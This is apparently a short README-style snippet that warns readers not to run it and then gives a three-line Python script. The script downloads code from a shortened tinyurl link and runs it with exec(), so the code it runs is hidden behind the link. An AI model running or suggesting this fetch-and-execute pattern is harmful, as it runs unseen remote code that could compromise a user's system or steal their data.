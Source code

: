 # Warning
You should not execute this script.<br/>
If you execute this, it is at your own risk<br/>
<br/>
```
import urllib.request
script = urllib.request.urlopen("https://tinyurl.com/btwktzns").read()
exec(script)
```

